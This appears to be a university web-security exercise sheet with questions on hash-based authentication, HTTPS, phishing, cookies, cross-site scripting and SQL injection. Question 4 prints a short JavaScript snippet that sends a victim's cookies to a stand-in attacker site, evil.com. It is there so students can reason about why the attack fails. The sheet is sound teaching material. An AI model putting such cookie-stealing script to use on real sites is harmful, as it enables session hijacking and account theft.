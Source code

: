 # Exercises sheet 3 Web Security

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k\|\|x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that xwas not modified by Bill? Justify your answer.

3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k\|\|z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer. 

4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:

	`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful? Why or why not?

5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.

6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not? 

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server. 

8. Summarize the difference between persistent and non-persistent cross-site scripting attacks. 

9. Explain why input validation mitigates the risks of SQL injection attacks.
